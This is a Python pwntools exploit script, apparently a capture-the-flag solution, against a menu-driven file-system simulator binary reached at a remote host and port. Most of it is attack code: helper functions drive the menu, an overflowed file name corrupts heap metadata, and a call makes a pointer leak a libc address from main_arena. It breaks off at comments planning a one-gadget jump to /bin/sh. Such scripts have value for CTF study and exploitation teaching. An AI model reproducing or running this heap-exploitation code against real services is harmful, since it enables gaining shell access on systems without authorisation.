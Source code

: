 ```python

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def create_file(name, size):
    r.sendlineafter(":", "4")
    r.sendafter(":", name)
    r.sendlineafter(":", str(size))

def change_dir(name):
    r.sendlineafter(":", "2")
    r.sendafter(":", name)

def remove(name):
    r.sendlineafter(":", "5")
    r.sendafter(":", name)

def make_dir(name):
    r.sendlineafter(":", "3")
    r.sendafter(":", name)

def ls():
    r.sendlineafter(":", "1")

def cal():
    r.sendlineafter(":", "6")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    # overwrite &file->fize_size (address of file_size)
    # use cal() to let file->name point to main_arena+88
    make_dir("AAAA")
    make_dir("BBBB")
    make_dir("CCCC")
    create_file("F"*24+p8(0x10), 64)
    remove("BBBB\n")
    remove("CCCC\n")
    cal()
    ls()

    # leak libc address
    ######################## one gadget
    # .text:000000000004525A                 mov     rax, cs:environ_ptr_0
    # .text:0000000000045261                 lea     rdi, aBinSh     ; "/bin/sh"
```